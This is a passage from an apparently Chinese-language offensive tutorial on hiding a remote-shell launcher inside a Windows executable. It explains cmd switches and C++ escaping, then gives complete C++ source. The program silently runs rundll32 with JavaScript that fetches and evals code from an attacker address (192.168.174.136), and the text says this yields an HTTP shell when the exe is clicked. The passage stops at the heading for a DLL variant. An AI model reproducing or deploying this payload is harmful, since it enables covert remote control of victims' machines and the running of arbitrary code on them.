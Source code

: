 0x03 隐藏在exe中
============

* * *

**开发工具：**`VC6.0`

需要注意以下细节：

### 1、使用ShellExecute, WinExec没有区别

通过两种方式执行cmd命令都可以

### 2、cmd 参数细节

**eg：**

```
cmd /c dir 是执行完dir命令后关闭命令窗口 
cmd /k dir 是执行完dir命令后不关闭命令窗口
cmd /c start dir 会打开一个新窗口后执行dir指令，原窗口会关闭 
cmd /k start dir 会打开一个新窗口后执行dir指令，原窗口不会关闭 

```

所以在用c++执行cmd命令时，为了退出残留的cmd进程，需要用`cmd /c start`再加上需要的cmd命令

### 3、转义字符

c++中存在转义字符，我们的命令中需要的转义字符如下：

*   `"`需要用`\"`表示
*   `\`需要用`\\`表示

综上，c++的代码为

```
#include "stdafx.h"
#include <windows.h>
int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR     lpCmdLine,
                     int       nCmdShow)
{
    char *command="cmd.exe /c start rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new\%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");h.Open(\"GET\",\"http://192.168.174.136/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new\%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";
    WinExec(command,SW_HIDE); 
    return 0;
}

```

点击exe，即可弹回HTTP shell

0x04 隐藏在dll中
============
